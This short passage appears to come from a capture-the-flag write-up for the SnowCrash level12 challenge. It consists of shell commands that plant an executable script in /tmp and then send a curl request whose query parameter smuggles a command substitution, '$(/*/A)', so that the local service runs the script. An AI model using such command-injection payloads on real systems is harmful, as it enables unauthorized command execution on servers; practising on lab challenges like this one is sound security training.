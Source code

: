 echo "getflag > /tmp/test" > /tmp/A

chmod +x /tmp/A

level12@SnowCrash:~$ curl 'localhost:4646/?x=$(/*/A)'

cat /tmp/test
